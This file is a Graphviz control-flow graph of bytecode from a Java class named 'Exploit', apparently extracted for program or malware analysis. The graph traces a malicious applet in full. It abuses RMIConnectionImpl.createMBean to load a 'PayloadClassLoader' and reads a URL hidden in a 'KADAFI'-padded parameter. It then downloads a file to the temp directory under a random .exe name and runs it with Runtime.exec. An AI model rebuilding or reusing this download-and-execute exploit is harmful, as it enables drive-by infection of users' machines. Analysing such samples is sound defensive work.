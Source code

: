 digraph "" {
    "r0 := @this: Exploit"
    "load.r r0"
    "r0 := @this: Exploit"->"load.r r0";
    "virtualinvoke <Exploit: java.rmi.MarshalledObject getPayload()>"
    "load.r r0"->"virtualinvoke <Exploit: java.rmi.MarshalledObject getPayload()>";
    "store.r $r12"
    "virtualinvoke <Exploit: java.rmi.MarshalledObject getPayload()>"->"store.r $r12";
    "store.r $r12"->"load.r r0";
    "specialinvoke <Exploit: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>"
    "load.r r0"->"specialinvoke <Exploit: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>";
    "store.r r2"
    "specialinvoke <Exploit: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "load.r r2"->"load.r r0";
    "specialinvoke <Exploit: javax.management.MBeanServer getMbeanServer()>"
    "load.r r0"->"specialinvoke <Exploit: javax.management.MBeanServer getMbeanServer()>";
    "virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <Exploit: javax.management.MBeanServer getMbeanServer()>"->"virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "dup1.r"
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r2";
    "push \"metasploit\""
    "load.r r2"->"push \"metasploit\"";
    "push null"
    "push \"metasploit\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "push \"PayloadClassLoader\""
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push \"PayloadClassLoader\"";
    "push \"PayloadClassLoader\""->"push null";
    "push null"->"push null";
    "load.r $r12"
    "push null"->"load.r $r12";
    "load.r $r12"->"push null";
    "push null"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"->"store.r $r12";
    "staticget <PayloadClassLoader: PayloadClassLoader instance>"
    "store.r $r12"->"staticget <PayloadClassLoader: PayloadClassLoader instance>";
    "virtualinvoke <PayloadClassLoader: void loadIt()>"
    "staticget <PayloadClassLoader: PayloadClassLoader instance>"->"virtualinvoke <PayloadClassLoader: void loadIt()>";
    "new java.lang.StringBuilder"
    "virtualinvoke <PayloadClassLoader: void loadIt()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "staticinvoke <java.lang.Math: double random()>"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"staticinvoke <java.lang.Math: double random()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"->"push \".exe\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r12";
    "store.r $r12"->"load.r r0";
    "push \"KADAFIdKADAFIaKADAFItKADAFIaKADAFI\""
    "load.r r0"->"push \"KADAFIdKADAFIaKADAFItKADAFIaKADAFI\"";
    "push \"KADAFI\""
    "push \"KADAFIdKADAFIaKADAFItKADAFIaKADAFI\""->"push \"KADAFI\"";
    "push \"\""
    "push \"KADAFI\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Exploit: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r4"
    "virtualinvoke <Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r4";
    "push \"java.io.tmpdir\""
    "store.r r4"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r0"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r0";
    "new java.net.URL"
    "store.r r0"->"new java.net.URL";
    "new java.net.URL"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r4"
    "load.r r2"->"load.r r4";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r4"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r2";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r r2"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"pop";
    "pop"->"load.r r2";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r2"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r2";
    "new java.io.FileOutputStream"
    "store.r r2"->"new java.io.FileOutputStream";
    "store.r $r21"
    "new java.io.FileOutputStream"->"store.r $r21";
    "load.r $r21"
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r4";
    "goto load.r r2"
    "store.r r4"->"goto load.r r2";
    "goto load.r r2"->"load.r r2";
    "load.r r2"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"load.r r4";
    "arraylength"
    "load.r r4"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpne.i load.r $r21"
    "push -1"->"ifcmpne.i load.r $r21";
    "ifcmpne.i load.r $r21"->"load.r r2";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r2"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r21";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r21"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"goto return";
    "ifcmpne.i load.r $r21"->"load.r $r21";
    "load.r $r21"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r0";
}
